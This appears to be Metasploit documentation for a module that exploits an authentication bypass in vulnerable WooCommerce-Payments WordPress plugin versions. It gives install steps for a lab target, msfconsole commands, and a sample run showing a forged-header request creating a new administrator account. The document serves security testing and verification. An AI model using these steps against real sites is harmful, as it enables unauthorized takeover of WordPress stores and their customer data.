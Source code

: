 ## Vulnerable Application
WooCommerce-Payments plugin for Wordpress versions 4.8 prior to 4.8.2, 4.9 prior to 4.9.1,
5.0 prior to 5.0.4, 5.1 prior to 5.1.3, 5.2 prior to 5.2.2, 5.3 prior to 5.3.1, 5.4 prior to 5.4.1,
5.5 prior to 5.5.2, and 5.6 prior to 5.6.2 contain an authentication bypass by specifying a valid user ID number
within the `X-WCPAY-PLATFORM-CHECKOUT-USER` header. With this authentication bypass, a user can then use the API
to create a new user with administrative privileges on the target WordPress site IF the user ID
selected corresponds to an administrator account.

### Install

Download, install, and Activate [woocomerce-payments 5.6.1](https://downloads.wordpress.org/plugin/woocommerce-payments.5.6.1.zip)

No configuration is required, and one does not need to install the main WooCommerce platform itself.

## Verification Steps

1. Install the plugin
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_woocommerce_payments_add_user`
1. Do: `set username [username]`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. A new WordPress administrator account should be created.
1. Verify the new account uses the username and password specified in the USERNAME and PASSWORD datastore options respectively.

## Options

### USERNAME

The username to create. Default is `msfadmin`.

### PASSWORD

The password for the user. Default is to create a random one.

### EMAIL

The email address for the user. Default is to create a random one.

### ADMINID

The user ID number for an administrator. Defaults to `1`

## Scenarios

### VWooCommerce Payments 5.6.1 on Wordpress 6.2.2

```
msf6 > use auxiliary/scanner/http/wp_woocommerce_payments_add_user 
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set username h00die
username => h00die
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > exploit
[*] Running module against 1.1.1.1

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/woocommerce-payments/readme.txt
[*] Found version 5.6.1 in the plugin
[+] The target appears to be vulnerable.
[*] Attempting to create an administrator user -> h00die:lWqD3BOer3AFZ (willie.miller@iwuxphff.qiawqio9t.gov)
[+] User was created successfully
[*] Auxiliary module execution completed
```
